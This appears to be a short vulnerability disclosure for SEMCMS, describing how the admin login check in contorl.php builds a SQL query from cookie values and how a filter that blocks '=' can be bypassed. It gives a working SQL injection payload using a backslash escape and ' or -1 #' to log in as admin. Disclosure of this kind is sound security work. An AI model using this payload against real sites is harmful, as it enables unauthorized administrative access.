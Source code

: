 # backstage_access_control
---
## Vulnerabilities is exist \Include\contorl.php 128 line
![f](https://github.com/cve-vul/vul/blob/master/SEMCMS/f.png)
**Function checkuser is Determine whether the user is logged in or not**

**In 187 line**
```
$query=$db_conn->query("select * from sc_user where user_admin='$cookieuseradmin' and user_ps='$cookieuserpass'");
```
**Variables $cookieuseradmin and $cookieuserpass are obtained from cookies**

**And through test_input() and verify_str() two detection functions**
![b](https://github.com/cve-vul/vul/blob/master/SEMCMS/b.png)
![c](https://github.com/cve-vul/vul/blob/master/SEMCMS/c.png)

**So,Universal password "or 1 = 1" is not feasible. The equality sign is filtered in the verify_str function.**
**But! Password "or-1" is OK,So the final payload is:**
```
Payload:
select * from sc_user where user_admin='\' and user_ps=' or -1 #'
```
![g](https://github.com/cve-vul/vul/blob/master/SEMCMS/g.png)
